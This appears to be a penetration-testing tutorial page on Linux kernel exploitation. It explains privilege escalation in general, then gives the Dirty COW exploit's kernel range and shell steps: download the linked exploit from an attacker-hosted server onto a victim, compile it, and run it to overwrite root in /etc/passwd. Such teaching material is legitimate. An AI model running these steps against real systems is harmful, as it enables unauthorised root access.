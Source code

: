 # 4.4.1 Kernel Exploitation

## Kernel Exploitation

<details>

<summary>What is a Kernel Exploitation?</summary>

**Kernel exploitation** refers to the process of taking advantage of vulnerabilities or weaknesses in the kernel of an operating system to execute unauthorized or malicious code. The kernel is the core component of an operating system, managing system resources, providing services to user-level applications, and facilitating communication between hardware and software.

Here are some key points related to kernel exploitation:

1. **Kernel Vulnerabilities:**
   * Security vulnerabilities in the kernel's code can be exploited by attackers to compromise the security of a system. These vulnerabilities may include buffer overflows, privilege escalation flaws, race conditions, or other programming errors.
2. **Privilege Escalation:**
   * One common goal of kernel exploitation is privilege escalation. By exploiting a vulnerability in the kernel, an attacker may gain elevated privileges beyond what is normally allowed. This could lead to full control over the system.
3. **Arbitrary Code Execution:**
   * Successful kernel exploitation often involves executing arbitrary code within the kernel's context. This can be used to manipulate or compromise the system, install malware, or perform other malicious activities.
4. **Impact on System Security:**
   * Kernel exploitation is a serious security threat because compromising the kernel means compromising the core of the operating system. An attacker with control over the kernel can potentially control all aspects of the system.
5. **Mitigation:**
   * To address kernel exploitation, operating system developers release patches and updates to fix identified vulnerabilities. Keeping the system updated with the latest security patches is crucial for mitigating the risk of exploitation.

</details>

### Kernel Exploit (PoC)

#### Dirty COW

This exploit uses the pokemon exploit of the dirtycow vulnerability as a base and automatically generates a new passwd line. The user will be prompted for the new password when the binary is run. The original /etc/passwd file is then backed up to /tmp/passwd.bak and overwrites the root account with the generated line. After running the exploit you should be able to login with the newly created user.

{% embed url="https://www.exploit-db.com/exploits/40839" %}

This exploit works only for Linux Kernel vs between 2.6.22 and 3.9, we can check this information with cmd: `uname -a`

We need to transferring it and run into victim machine to give root privilege, compile it with gcc compiler and run it:

```bash
#launch python -m SimpleHTTPServer on attacker machine
#download it on victim machine using: wget http://target_IP:8000/dirtycowexploit.c
gcc -pthread dirtycowexploit.c -o dirtycow -lcrypt
chmod +x dirtycow
./dirtycow
```

This exploit creates a new couple of username and password with root privilege.

After accessing with this credential, we can check user's permission using `id` or `whoami` cmd).

## Other resources

{% embed url="https://github.com/xairy/linux-kernel-exploitation" %}
